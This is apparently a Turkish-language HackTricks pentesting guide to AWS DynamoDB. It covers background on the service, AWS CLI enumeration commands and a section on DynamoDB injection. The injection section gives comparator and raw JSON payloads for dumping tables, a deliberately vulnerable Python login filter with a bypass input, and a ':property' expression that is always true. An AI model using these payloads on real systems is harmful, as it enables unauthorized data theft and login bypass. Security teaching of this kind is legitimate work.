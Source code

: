 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Temel Bilgiler

Amazon DynamoDB, AWS tarafından **tamamen yönetilen, sunucusuz, anahtar-değer NoSQL veritabanı** olarak sunulmaktadır ve boyutlarından bağımsız olarak yüksek performanslı uygulamaları desteklemek için tasarlanmıştır. Hizmet, yerleşik güvenlik önlemleri, kesintisiz yedeklemeler, birden fazla bölgede otomatik çoğaltma, entegre bellek içi önbellekleme ve kullanışlı veri dışa aktarma araçları gibi sağlam özellikler sunar.

DynamoDB bağlamında, geleneksel bir veritabanı kurmak yerine, **tablolar oluşturulur**. Her tablo, **tablonun birincil anahtarının** ayrılmaz bir bileşeni olarak bir **bölüm anahtarı** belirtmeyi zorunlu kılar. Bu bölüm anahtarı, esasen bir **hash değeri** olup, hem öğelerin alınmasında hem de verilerin çeşitli sunucular arasında dağıtımında kritik bir rol oynar. Bu dağıtım, veritabanının ölçeklenebilirliğini ve kullanılabilirliğini korumak için hayati öneme sahiptir. Ayrıca, veri organizasyonunu daha da geliştirmek için bir **sıralama anahtarı** ekleme seçeneği de vardır.

### Şifreleme

Varsayılan olarak, DynamoDB, **Amazon DynamoDB'ye ait** bir KMS anahtarı kullanır, bu anahtar, en azından hesabınıza ait olan AWS yönetilen anahtar bile değildir.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Yedeklemeler & S3'e Dışa Aktarma

**Tablo yedeklemelerinin** oluşturulmasını **planlamak** veya **talep üzerine** oluşturmak mümkündür. Ayrıca, bir tablo için **Zamanda Nokta Kurtarma (PITR)** özelliğini etkinleştirmek de mümkündür. Zamanda nokta kurtarma, yanlış yazma veya silme işlemlerine karşı koruma sağlamak için DynamoDB verilerinizi **35 gün** boyunca sürekli **yedekler**.

Ayrıca, **bir tablonun verilerini S3'e dışa aktarmak** da mümkündür, ancak tablonun **PITR etkinleştirilmiş** olması gerekir.

### GUI

[**DynamoDB Local**](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [**dynalite**](https://github.com/mhart/dynalite), [**localstack**](https://github.com/localstack/localstack) gibi yerel Dynamo hizmetleri için yararlı olabilecek bir GUI bulunmaktadır: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Kimlik Doğrulama Olmadan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### İstismar Sonrası

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Süreklilik

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Enjeksiyonu

### SQL Enjeksiyonu

DynamoDB verilerine **SQL sözdizimi** ile erişmenin yolları vardır, bu nedenle tipik **SQL enjeksiyonları da mümkündür**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Enjeksiyonu

DynamoDB'de verileri almak için farklı **koşullar** kullanılabilir, eğer bir NoSQL Enjeksiyonunda olduğu gibi verileri almak için **daha fazla koşulu birleştirmek** mümkünse, gizli verilere ulaşabilir (veya tüm tabloyu dökebilirsiniz).\
DynamoDB tarafından desteklenen koşulları burada bulabilirsiniz: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Verilere **`query`** veya **`scan`** aracılığıyla erişiliyorsa **farklı koşulların** desteklendiğini unutmayın.

{% hint style="info" %}
Aslında, **Query** işlemleri, çalışması için **birincil** anahtarda **"EQ" (eşittir)** koşulunu belirtmelidir, bu da onu **NoSQL enjeksiyonlarına karşı daha az duyarlı** hale getirir (ve ayrıca işlemi çok sınırlı hale getirir).
{% endhint %}

Eğer **karşılaştırmayı** değiştirebilir veya yenilerini ekleyebilirseniz, daha fazla veri alabilirsiniz.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Ham Json enjeksiyonu

{% hint style="danger" %}
**Bu zafiyet, artık kullanımdan kaldırılmış olan dynamodb Scan Filter'a dayanmaktadır!**
{% endhint %}

**DynamoDB**, DB içindeki verileri **arama** için **Json** nesnelerini kabul eder. Eğer arama için gönderilen json nesnesinde yazma yeteneğiniz olduğunu bulursanız, DB'yi boşaltabilir, tüm içeriklerini alabilirsiniz.

Örneğin, bir isteğe enjeksiyon yaparak: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

bir saldırgan şunları enjekte edebilir:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ID 1000 için "EQ" koşulunu düzeltin ve ardından 0'dan büyük bir Id dizesi ile tüm verileri arayın, bu da hepsidir.

Başka bir **güvenlik açığı olan örnek bir giriş** olabilir:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Bu, şuna karşı savunmasız olacaktır:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Bazı SDK'lar, gerçekleştirilecek filtrelemeyi belirten bir dize kullanmaya izin verir: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

DynamoDB'de **filtre ifadeleri** içinde bir **özelliğin** **değerini** **değiştirmek** için öğeleri tararken, token'ların **`:`** karakteri ile **başlaması** gerektiğini bilmelisiniz. Bu tür token'lar, **çalışma zamanında** gerçek **özellik değeri ile değiştirilir**.

Bu nedenle, önceki gibi bir giriş, şu şekilde atlatılabilir:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

